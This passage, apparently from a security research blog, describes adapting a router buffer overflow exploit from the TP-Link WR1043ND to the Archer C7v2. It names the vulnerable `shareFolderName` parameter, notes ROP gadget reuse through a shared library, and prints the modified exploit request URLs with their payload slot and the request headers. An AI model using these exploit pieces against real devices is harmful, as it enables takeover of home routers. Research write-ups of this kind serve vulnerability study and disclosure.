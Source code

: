 ### Vulnerability Confirmation

The vulnerable firmware version was confirmed to match the analyzed patterns:

![Archer C7v2 Vulnerability](/assets/blog/ArcherC7v2_Vulnerability.png)
*Figure 5: Vulnerability confirmation in Archer C7v2 firmware*

### Parameter Identification

The vulnerable parameter was identified as `shareFolderName`:

![Share Folder Name](/assets/blog/ArcherC7v2_shareFolderName_injectionPoint.png)
*Figure 6: Vulnerable parameter identification (line 254 → line 274)*

### NAS Functionality

![NAS Functionality](/assets/blog/FolderSharingContentVuln.png)
*Figure 7: NAS functionality enabled on target device*

![Create Shared Folder](/assets/blog/createSharedFolder.png)
*Figure 8: Creating a shared folder to trigger vulnerability*

### HTTP Request Analysis

![Vulnerable Request](/assets/blog/ArcherC7v2_Vulnerable_Request.png)
*Figure 9: HTTP request containing vulnerable parameter*

## Exploit Adaptation

### Library Compatibility

Both target devices share the same `libuClibc-0.9.30.so` library, which allows **ROP gadget reuse** between devices, significantly simplifying exploit development.

### URL Modification

**Original exploit URL (WR1043ND):**
```
bof_url = base_url+"/"+session_id+"/userRpm/MediaServerFoldersCfgRpm.htm?displayName=bof&shareEntire="+payload+"&no_use_para_just_fix_ie_sub_bug=&Save=Save"
```

**Modified URL (Archer C7v2):**
```
bof_url = base_url+"/"+session_id+"/userRpm/NasFolderSharingRpm.htm?displayName=bof&mediaShare=on&shareFolderName="+payload+"&Save=Save&selPage=0&Page=1&subpage=2&no_use_para_just_fix_ie_sub_bug="
```

### Header Adaptation

**Original headers:**
```python
headers = { 
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0", 
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", 
    "Accept-Language": "en-US,en;q=0.5", 
    "Accept-Encoding": "gzip, deflate", 
    "Referer": "http://192.168.0.1/", 
    "Cookie": "Authorization="+cookie_auth_string, 
    "Authorization": "Basic "+basic_string, 
    "Connection": "close", 
    "Upgrade-Insecure-Requests": "1"
}
```